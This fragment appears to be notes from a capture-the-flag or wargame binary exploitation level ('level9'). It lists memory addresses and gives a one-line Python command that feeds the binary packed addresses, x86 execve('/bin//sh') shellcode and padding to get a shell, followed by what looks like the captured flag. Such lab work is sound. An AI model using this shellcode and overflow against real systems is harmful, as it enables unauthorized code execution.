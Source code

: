 0x804a008
0x0804a00c = adress of string in this
0x0804a010

./level9 $(python -c
'import struct; print struct.pack("<I", 0x0804a010) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80" + "A" \* 80 + struct.pack("<I", 0x0804a00c)')

f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
